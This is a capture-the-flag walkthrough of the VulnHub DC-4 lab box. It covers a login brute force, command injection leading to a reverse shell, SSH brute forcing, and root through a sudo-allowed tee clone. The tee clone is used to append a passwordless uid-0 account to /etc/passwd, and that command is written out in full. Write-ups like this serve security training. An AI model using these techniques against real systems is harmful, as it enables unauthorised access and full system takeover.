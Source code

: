 ```yaml
---
layout: "post"
title: "DC 4 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-4, easy, teehee]
---
```

DC-4 is a good beginner-friendly box. We `bruteforce` the website and get admin password. with the help of `OS command injection` vulnerability get shell on box. The old-password list gives password of user jim and mail from charles gives another password. We get root by adding user in `/etc/passwd` file using `teehee`. 

# Summery
- Portscan
- Bruteforce site to get admin password
- Command Injection
- Bruteforce SSH 
- Find password from mail
- Check Sudoers
- Add new user using teehee
- Root access
- The Flag

# Recon

## Portscan
```bash
Nmap scan report for 192.168.1.8
Host is up (0.00020s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Website
We have a login page on the website with title `Admin inforamtion Systems login` 
![mainpage](/assets/img/dc-4/mainpage.png)
## Gobuster
After running gobuster we see that we have a `command.php` but it redirect to login.php. I tried sql injection and other attacks but no luck. The final option is Bruteforce.

```bash
$gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.8 -x php,html,txt -o go-main.out
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 302)
/css (Status: 301)
/logout.php (Status: 302)
/command.php (Status: 302)
```
# Bruteforce using burpsuite
As per the site mainpage, I set username filed as `admin` and using burpsuite brute force the login page.

![burpsuite](/assets/img/dc-4/b1.png)
![burpsuite](/assets/img/dc-4/b2.png)

We get credentials.

```
username : admin
password : happy
```

# Command injection
After login we have command option by clicking this we can see list of commands.
Pick one of them and see the result.

![command](/assets/img/dc-4/command.png)
![command2](/assets/img/dc-4/command2.png)

So, I intercept the request in burp and send it to repeter.
Change the radio option to reverse shell, set up netcat listener and get the shell.

![reverse](/assets/img/dc-4/b3.png)
![nc](/assets/img/dc-4/nc.png)

# First User 
There are 3 user on box *charles, jim* and *sam*. We found old-password.txt in home directory of user jim.
![users](/assets/img/dc-4/users.png)
Now brute force the SSH and we get password for jim.
![hydra](/assets/img/dc-4/ssh.png)

Use this password to login to ssh.

```
username : jim
password : jibril04
```

# Second User
The jim directory has `mbox` which is an test email. So, I checked `/var/mail` folder there is mail for jim.

```
jim@dc-4:~$ ls
backups  mbox  test.sh
jim@dc-4:~$ cd /var/mail
jim@dc-4:/var/mail$ ls
jim
```

Mail has password for `charles`.
```
jim@dc-4:/var/mail$ cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
Use this password to login to `charles`.

```
jim@dc-4:~$ su - charles
Password: 
charles@dc-4:~$ 
```

```
username : charles
Password : ^xHhA&hvim0y
```

# Privsec to root
Now I checked the sudoers list and found that I can run teehee command without password.

```
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

We can also see the help menu.

```
charles@dc-4:~$ teehee --help
Usage: teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'

```
This binary append standered input to file. I added user in the /etc/passwd.

```
charles@dc-4:~$ sudo teehee -a /etc/passwd
user::0:0:::/bin/bash 
user::0:0:::/bin/bash
^C
charles@dc-4:~$ su user
root@dc-4:/home/charles# 
```
# Root Flag

```bash
root@dc-4:/root# cat flag.txt 



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
